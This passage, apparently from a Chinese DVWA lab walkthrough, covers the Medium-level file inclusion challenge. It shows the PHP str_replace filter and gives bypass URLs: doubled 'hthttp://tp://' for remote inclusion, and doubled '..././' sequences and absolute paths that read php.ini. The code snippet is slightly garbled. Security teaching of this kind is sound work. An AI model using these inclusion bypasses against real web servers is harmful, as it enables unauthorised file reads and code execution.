 

服务器端核心代码



```
<php       
//Thepagewewishtodisplay      
$file=$_GET['page'];       
//Inputvalidation      
$file=str_replace(array("http://","https://"),"",$file);      
$file=str_replace(array("../","..\""),"",$file);       1
>
```




可以看到，Medium级别的代码增加了str\_replace函数，对page参数进行了一定的处理，将”http:// ”、”https://”、 ” ../”、”..\\”替换为空字符，即删除。



### ****漏洞利用****



使用str\_replace函数是极其不安全的，因为可以使用双写绕过替换规则。



例如page=[hthttp://tp://192.168.5.12/phpinfo.txt](http://www.example.com/)时，str\_replace函数会将http://删除，于是page=[http://192.168.5.12/phpinfo.txt](http://192.168.5.12/phpinfo.txt)，成功执行远程命令。



同时，因为替换的只是“../”、“..\\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。



1.本地文件包含



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=…/./…/./…/./…/./…/./…/./…/./…/./…/./…/./xampp/htdocs/dvwa/php.ini](http://www.example.com/)



读取配置文件成功



[![1.png](http://image.3001.net/images/20161106/14784223912895.png!small)](http://image.3001.net/images/20161106/14784223912895.png)



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=C:/xampp/htdocs/dvwa/php.ini](http://www.example.com/)



绝对路径不受任何影响，读取成功



[![1.png](http://image.3001.net/images/20161106/1478422430551.png!small)](http://image.3001.net/images/20161106/1478422430551.png)
